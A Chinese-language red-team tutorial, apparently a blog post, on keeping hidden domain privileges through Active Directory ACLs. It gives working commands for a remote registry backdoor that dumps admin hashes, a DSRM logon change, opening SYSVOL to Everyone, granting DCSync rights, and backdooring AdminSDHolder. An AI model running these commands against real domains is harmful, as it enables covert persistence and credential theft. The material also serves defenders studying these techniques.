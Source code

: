 ### 通过ACL维持域权限

ACL--访问控制列表。用来表示用户（组）权限的列表，包括DACL和SACL。ACL由访问控制实体（ACE，Access Control Entries）组成，每一个ACE可以看作配置的一条访问策略.

- **DACL**

  DACL列表包含了用户和组的列表，以及相应的权限，允许或拒绝。每一个用户或组在任意访问控制列表中都有特殊的权限。

  DACL是安全对象（securable object） 的一个属性，用来表示 安全对象 的访问权限的列表。

  当一个进程试图访问一个安全对象时，系统会检查该指向的DACL中的ACE

- **SACL**

  System Access Control List，定义对象的访问行为记录策略。

![](/Users/cate4cafe/工作/文章/ACL维持域权限/20200413102324.jpg)

在拥有ACL配置权限的条件下，配置ACL使的普通用户权限也能像高权限一样访问、修改某些对象，从而达到隐蔽维持权限的方法

#### 基于注册表ACL

在域控制器上将hklm的特定键值分配everyone读取权限，可直接读到管理员的hash。可利用[DAMP](https://github.com/HarmJ0y/DAMP)脚本实现。

system权限执行

`Add-RemoteRegBackdoor -ComputerName Ad.CATE4CAFE.com -Trustee 'S-1-1-0' -Verbose`

![](/Users/cate4cafe/工作/文章/ACL维持域权限/2.jpg)

普通域用户上就可以读取到域控上的本地管理员权限的hash

`Get-RemoteLocalAccountHash -ComputerName ad -Verbose`

![](/Users/cate4cafe/工作/文章/ACL维持域权限/3.jpg)

此账户hash不允许pth,还需要在域控上修改注册表允许其远程访问

`reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2`

#### 基于组策略ACL

通过修改组策略文件ACL，使得普通用户具有完全权限，就可以修改组策略模板文件从而修改文件达到权限维持效果。

`cacls C:\Windows\SYSVOL\sysvol\cate4cafe.com\Policies /e /t /c /g "EveryOne":f`

在域机器上便可修改模板文件

![](/Users/cate4cafe/工作/文章/ACL维持域权限/4.jpg)

修改注册表添加自启动、映像劫持、修改主机账号的委派设置权限SeEnableDelegationPrivilege使得某个用户拥有修改域内所有用户的委派设置从而作为门等。

#### dcsync

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

```
DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)
```

该用户就可以使用DCSync导出域内用户hash的权限。使用powerview

`Add-DomainObjectAcl -TargetIdentity "DC=cate4cafe,DC=com" -PrincipalIdentity rcoil -Rights DCSync -Verbose`

rcoil用户mimikatz执行dcsync

![](/Users/cate4cafe/工作/文章/ACL维持域权限/5.jpg)

### AdminSDHolder

同样使用powerview脚本设置

`Add-ObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=cate4cafe,DC=com" -PrincipalIdentity rcoil -Rights All -Verbose`

60分钟后该AdminSDHolder就会应用配置的ACL，指定的用户便可以获得对所有受保护帐户和组的完全管理权限。

也可以通过修改注册表来改变ACL刷新时间

`reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency /t REG_DWORD /d 30`